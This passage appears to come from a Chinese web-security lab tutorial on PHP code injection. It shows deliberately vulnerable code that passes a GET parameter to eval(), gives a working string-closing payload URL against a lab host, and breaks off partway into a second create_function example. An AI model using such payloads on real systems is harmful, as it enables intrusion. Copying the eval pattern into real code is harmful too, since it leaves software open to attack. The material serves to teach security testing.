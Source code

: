 ### 2.1.5 Code injection Example 1

未做过滤，可以进行闭合触发漏洞。

```plain
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

[http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//](http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//)  
[![](assets/1704850598-0b4322e9a5977b79285317648abbba3a.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zLxDoPz6tjQAhW9w.png)

### 2.1.6 Code injection Example 2

create\_function类似于function test($args){方法代码部分}，然后通过闭合

```plain
<?php
class User{
  public $id, $name, $age;
  function __construct($id, $name, $age){
    $this->name= $name;
    $this->age = $age;
    $this->id = $id;
  }   
}
  require_once('../header.php');
  require_once('../sqli/db.php');
   $sql = "SELECT * FROM users ";

   $order = $_GET["order"];
   $result = mysql_query($sql);
```